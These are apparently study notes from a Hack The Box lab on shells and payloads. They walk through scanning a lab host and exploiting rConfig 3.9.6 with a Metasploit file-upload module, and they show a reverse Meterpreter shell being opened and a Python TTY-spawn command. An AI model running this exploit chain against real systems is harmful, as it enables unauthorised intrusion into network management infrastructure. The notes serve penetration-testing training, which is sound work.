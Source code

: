 ```yaml
---
Title: HTB\shells&payloads\InfiltratingUnixLinux
tags:
  - os/linux
  - os/network- cybersec
source: HTB\shells&payloads\InfiltratingUnixLinux
---
```


# HTB\shells&payloads\InfiltratingUnixLinux

> Źródło: `HTB\shells&payloads\InfiltratingUnixLinux`

When considering how we will establish a shell session on a Unix/Linux system, we will benefit from considering the following:

What distribution of Linux is the system running?

What shell & programming languages exist on the system?

What function is the system serving for the network environment it is on?

What application is the system hosting?

Are there any known vulnerabilities?

Gaining a Shell Through Attacking a Vulnerable Application
As in most engagements, we will start with an initial enumeration of the system using Nmap.

Enumerate the Host
Ovas420@htb[/htb]$ nmap -sC -sV 10.129.201.101

Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-27 09:09 EDT
Nmap scan report for 10.129.201.101
Host is up (0.11s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE  VERSION
21/tcp   open  ftp      vsftpd 2.0.8 or later
22/tcp   open  ssh      OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 2d:b2:23:75:87:57:b9:d2:dc:88:b9:f4:c1:9e:36:2a (RSA)
|   256 c4:88:20:b0:22:2b:66:d0:8e:9d:2f:e5:dd:32:71:b1 (ECDSA)
|_  256 e3:2a:ec:f0:e4:12:fc:da:cf:76:d5:43:17:30:23:27 (ED25519)
80/tcp   open  http     Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/7.2.34)
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/7.2.34
|_http-title: Did not follow redirect to https://10.129.201.101/
111/tcp  open  rpcbind  2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
443/tcp  open  ssl/http Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/7.2.34)
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/7.2.34
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2021-09-24T19:29:26
|_Not valid after:  2022-09-24T19:29:26
|_ssl-date: TLS randomness does not represent time
3306/tcp open  mysql    MySQL (unauthorized)

Keeping our goal of gaining a shell session in mind, we must establish some next steps after examining our scan output.

What information could we gather from the output?

Considering we can see the system is listening on ports 80 (HTTP), 443 (HTTPS), 3306 (MySQL), and 21 (FTP),
it may be safe to assume that this is a web server hosting a web application.
We can also see some version numbers revealed associated with the web stack (Apache 2.4.6 and PHP 7.2.34 ) and the distribution of Linux running on the system (CentOS).
Before deciding on a direction to research further (dive down a rabbit hole),
we should also try navigating to the IP address through a web browser to discover the hosted application if possible.

[Photo of a rconfig management tool - LoL xd]

Here we discover a network configuration management tool called rConfig.
This application is used by network & system administrators to automate the process of configuring network appliances.
One practical use case would be to use rConfig to remotely configure network interfaces with IP addressing information on multiple routers simultaneously.
This tool saves admins time but, if compromised, could be used to pivot onto critical network devices that switch & route packets across the network.
A malicious attacker could own the entire network through rConfig since it will likely have admin access to all the network appliances used to configure.
As pentesters, finding a vulnerability in this application would be considered a very critical discovery.

Take a close look at the bottom of the web login page, and we can see the rConfig version number (3.9.6).
We should use this information to start looking for any CVEs, publicly available exploits, and proof of concepts (PoCs).
As we research, be sure to look closely at what we find and understand what it is doing. We, of course, want it to lead us to a shell session with the target.

Using your search engine of choice will turn up some promising results. We can use the keywords: rConfig 3.9.6 vulnerability.

We can see that it may be worthwhile to choose this as the main focus of our research.
The same thinking could be applied to the Apache and PHP versions, but since the application is running on the web stack,
let's see if we can gain a shell through an exploit written for the vulnerabilities found in rConfig.

We can also use Metasploit's search functionality to see if any exploit modules can get us a shell session on the target.

msf6 > search rconfig

Matching Modules
================

   #  Name                                             Disclosure Date  Rank       Check  Description
   -  ----                                             ---------------  ----       -----  -----------
   0  exploit/multi/http/solr_velocity_rce             2019-10-29       excellent  Yes    Apache Solr Remote Code Execution via Velocity Template
   1  auxiliary/gather/nuuo_cms_file_download          2018-10-11       normal     No     Nuuo Central Management Server Authenticated Arbitrary File Download
   2  exploit/linux/http/rconfig_ajaxarchivefiles_rce  2020-03-11       good       Yes    Rconfig 3.x Chained Remote Code Execution
   3  exploit/unix/webapp/rconfig_install_cmd_exec     2019-10-28       excellent  Yes    rConfig install Command Execution

One detail that can be overlooked when relying on MSF to find an exploit module for a specific application is the version of MSF.
There may be useful exploit modules that are not installed on our system or just aren't showing up via search.
In these cases, it's good to know that Rapid 7 keeps code for exploit modules in their repos on github (https://github.com/rapid7/metasploit-framework/tree/master/modules/exploits).
We could do an even more specific search using a search engine: rConfig 3.9.6 exploit metasploit github.

This search can point us to the source code for an exploit module called rconfig_vendors_auth_file_upload_rce.rb.
This exploit can get us a shell session on a target Linux box running rConfig 3.9.6.
If this exploit did not show up in the MSF search,
we can copy the code from this repo onto our local attack box and save it in the directory that our local install of MSF is referencing.
To do this, we can issue this command on our attack box:

Ovas420@htb[/htb]$ locate exploits
We want to look for the directories in the output associated with Metasploit Framework. On Pwnbox, Metasploit exploit modules are kept in:

/usr/share/metasploit-framework/modules/exploits

We can copy the code into a file and save it in /usr/share/metasploit-framework/modules/exploits/linux/http similar to where they are storing the code in the GitHub repo.
We should also keep msf up to date using the commands apt update; apt install metasploit-framework or your local package manager.
Once we find the exploit module and download it (we can use wget) or copy it into the proper directory from Github, we can use it to gain a shell session on the target.
If we copy it into a file on our local system, make sure the file has .rb as the extension. All modules in MSF are written in Ruby.

Using the rconfig Exploit and gaining a shell
Select an Exploit

msf6 > use exploit/linux/http/rconfig_vendors_auth_file_upload_rce
With this exploit selected, we can list the options, input the proper settings specific to our network environment, and launch the exploit.

Execute The exploit
msf6 exploit(linux/http/rconfig_vendors_auth_file_upload_rce) > exploit

[*] Started reverse TCP handler on 10.10.14.111:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] 3.9.6 of rConfig found !
[+] The target appears to be vulnerable. Vulnerable version of rConfig found !
[+] We successfully logged in !
[*] Uploading file 'olxapybdo.php' containing the payload...
[*] Triggering the payload ...
[*] Sending stage (39282 bytes) to 10.129.201.101
[+] Deleted olxapybdo.php
[*] Meterpreter session 1 opened (10.10.14.111:4444 -> 10.129.201.101:38860) at 2021-09-27 13:49:34 -0400

meterpreter > dir
Listing: /home/rconfig/www/images/vendor
========================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100644/rw-r--r--  673   fil   2020-09-03 05:49:58 -0400  ajax-loader.gif
100644/rw-r--r--  1027  fil   2020-09-03 05:49:58 -0400  cisco.jpg
100644/rw-r--r--  1017  fil   2020-09-03 05:49:58 -0400  juniper.jpg

We can see from the steps outlined in the exploitation process that this exploit:

Checks for the vulnerable version of rConfig
Authenticates with the rConfig web login
Uploads a PHP-based payload for a reverse shell connection
Deletes the payload
Leaves us with a Meterpreter shell session

Spawning a TTY Shell with Python
When we drop into the system shell, we notice that no prompt is present, yet we can still issue some system commands.
This is a shell typically referred to as a non-tty shell.
These shells have limited functionality and can often prevent our use of essential commands like su (switch user) and sudo (super user do),
which we will likely need if we seek to escalate privileges. This happened because the payload was executed on the target by the apache user.
Our session is established as the apache user.
Normally, admins are not accessing the system as the apache user,
so there is no need for a shell interpreter language to be defined in the environment variables associated with apache.

We can manually spawn a TTY shell using Python if it is present on the system.
We can always check for Python's presence on Linux systems by typing the command: which python.
To spawn the TTY shell session using Python, we type the following command:

Interactive Python
```bash
python -c 'import pty; pty.spawn("/bin/sh")'
```

sh-4.2$
sh-4.2$ whoami
whoami
apache
This command uses python to import the pty module, then uses the pty.spawn function to execute the bourne shell binary (/bin/sh).
We now have a prompt (sh-4.2$) and access to more system commands to move about the system as we please.

**Powiązane:** [[Graph-Home]] [[OS-Linux]] [[OS-Network]]
